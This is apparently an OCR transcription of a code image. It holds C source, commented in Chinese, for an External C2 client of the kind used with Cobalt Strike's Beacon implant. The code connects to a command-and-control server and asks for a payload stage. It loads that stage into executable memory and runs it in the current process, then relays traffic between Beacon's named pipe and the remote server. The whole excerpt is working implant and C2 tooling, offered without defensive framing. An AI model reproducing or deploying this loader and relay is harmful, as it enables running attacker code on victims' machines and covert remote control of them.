 ```
    WriteFile(my_handle, (void *)&length, 4, &wrote, NULL);
    WriteFile(my_handle, buffer, length, &wrote, NULL);
}

/* 客户端主逻辑 */
void go(char * host, DWORD port) {
    /* 连接到External C2服务器 */
    struct sockaddr_in sock;
    sock.sin_family = AF_INET;
    sock.sin_addr.s_addr = inet_addr(host);
    sock.sin_port = htons(port);
    SOCKET socket_extc2 = socket(AF_INET, SOCK_STREAM, 0);
    if (connect(socket_extc2, (struct sockaddr *) &sock, sizeof(sock))) {
        printf("Could not connect to %s:%d\n", host, port);
        exit(0);
    }

    /* 发送选项 */
    send_frame(socket_extc2, "arch=x86", 8);
    send_frame(socket_extc2, "pipename=foobar", 15);
    send_frame(socket_extc2, "block=100", 9);

    /* 请求并接收有效载荷阶段 */
    send_frame(socket_extc2, "go", 2);
    char *payload = VirtualAlloc(0, PAYLOAD_MAX_SIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    recv_frame(socket_extc2, payload, PAYLOAD_MAX_SIZE);

    /* 将有效载荷注入当前进程 */
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)payload, (LPVOID) NULL, 0, NULL);

    /* 连接到Beacon命名管道 */
    HANDLE handle_beacon = INVALID_HANDLE_VALUE;
    while (handle_beacon == INVALID_HANDLE_VALUE) {
        Sleep(1000);
        handle_beacon = CreateFileA("\\\\.\\pipe\\foobar", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, SECURITY_SQOS_PRESENT | SECURITY_ANONYMOUS, NULL);
    }

    /* 设置缓冲区 */
    char *buffer = (char *) malloc(BUFFER_MAX_SIZE);

    /* 中继帧 */
    while (TRUE) {
        /* 从Beacon命名管道读取 */
        DWORD read = read_frame(handle_beacon, buffer, BUFFER_MAX_SIZE);
        if (read < 0) {
            break;
        }
        /* 写入External C2服务器 */
        send_frame(socket_extc2, buffer, read);
        /* 从External C2服务器读取 */
        read = recv_frame(socket_extc2, buffer, BUFFER_MAX_SIZE);
        if (read < 0) {
            break;
        }
        /* 写入Beacon命名管道 */
        write_frame(handle_beacon, buffer, read);
    }

    /* 关闭句柄 */
    CloseHandle(handle_beacon);
    closesocket(socket_extc2);
}
```